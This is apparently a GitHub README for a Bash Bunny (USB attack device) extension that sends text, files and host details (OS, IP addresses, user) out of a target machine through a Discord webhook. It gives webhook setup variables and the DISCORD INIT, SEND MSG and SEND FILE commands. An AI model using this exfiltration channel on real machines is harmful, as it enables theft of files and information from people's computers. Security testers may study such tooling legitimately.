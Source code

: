 <div align="center">

# Discord Exfiltration

![Bash](https://img.shields.io/badge/Shell_Script-121011?style=for-the-badge&logo=gnu-bash&logoColor=white)
![Quack](https://img.shields.io/badge/Ducky_Script-121011?style=for-the-badge&logo=duck&logoColor=white)

A discord exfiltration extension

[Documentation](#documentation) • [License](#license) . [Changelog](#changelog) . [Support](#support)


</div>

This bashbunny extension provide exfiltration of text and files through discord webhook

# Documentation

>To use this extension, you need to create a webhook on discord and get the webhook id and token
During your setup steps, you need to set the DISCORD_WEBHOOK_ID and DISCORD_WEBHOOK_TOKEN variables

```bash
DISCORD_WEBHOOK_ID="<DISCORD_WEBHOOK_ID>"
DISCORD_WEBHOOK_TOKEN="<DISCORD_WEBHOOK_TOKEN>"
```

### DISCORD INIT

Initialize the exfiltration session by posting an embed message on discord with host information
This command need ```$BB_HOST_OS, $BB_HOST_IP_V4, $BB_HOST_IP_V6, BB_HOST_IP_USER``` variables to be set (Set by default if you use my OSX extension)

<img width="300" alt="image" src="https://github.com/quentinlamamy/bashbunny/blob/23c6dc74f5e719e2f6fb067a96c493ca03947992/img/discord_embed.png?raw=true">

## DISCORD SEND MSG

Send a message to discord via webhook

```bash
DISCORD SEND MSG $yourMessage
```

## DISCORD SEND FILE

Send a file to discord via webhook
```bash
DISCORD SEND FILE $yourFilePath
```

# License

# Changelog

v1.0 : 
* :tada: Release on 2023/07/31

# Contributing
A bug ? An idea of feature ? [Fill an issue on github](https://github.com/quentinlamamy/ffmpeg-panda/issues)

# Support
<a href="https://www.buymeacoffee.com/quentinlamamy" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/default-orange.png" alt="Buy Me A Coffee" height="41" width="174"></a>

